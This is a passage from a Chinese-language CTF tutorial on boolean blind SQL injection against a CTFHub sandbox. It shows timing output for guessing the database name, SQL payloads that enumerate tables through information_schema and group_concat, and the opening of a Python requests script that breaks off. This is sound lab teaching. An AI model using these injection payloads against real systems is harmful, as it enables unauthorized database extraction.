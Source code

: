 同样来看一下时间：

```shell
database: s
database: se
database: sec
database: secu
database: secur
database: securi
database: securit
database: security
Time elapsed in Linear is: 5.873950016s
database: s
database: se
database: sec
database: secu
database: secur
database: securi
database: securit
database: security
Time elapsed in Binary is: 788.546473ms
```
时间还是比 Golang 要长一点，所以还是 Golang 可能会更香一点。

# 实践
1. 启动测试环境

在 CTFHub 上启动布尔盲注题目环境。获得环境链接如下：

```shell
http://challenge-8542e4f21d675576.sandbox.ctfhub.com:10080/
```

2. 完整的盲注过程代码

这部分的代码，有几个需要注意的点：
- 代码中通过 `sql_payload` 独立出来使语句变短以及可读
- 使用 `group_concat()` 函数来把多个结果绑成一个结果输出

如果不用 `group_concat()`，那么需要通过调节 `limit 0,1` 来去“猜”不同的 ASCII 码。

比如完整的 SQL 的 payload 如下：

```shell
# 一次只能猜一个，除非调节limit的参数
sql_payload = "select TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA = database() limit 0,1"
# 一次性把所有的结果用`,`链接（group_concat默认）
sql_payload = "select group_concat(TABLE_NAME) from information_schema.TABLES where TABLE_SCHEMA = database()"
```

这样一来，程序的逻辑也会降低。

```python
import requests
import time

base_url = "http://challenge-8542e4f21d675576.sandbox.ctfhub.com:10080/?id="

mark = 'query_success'


# more detail: https://stackoverflow.com/a/803626/8587335
def measure_time(func):
    start_time = time.time()
    _ = func()
    end_time = time.time()
```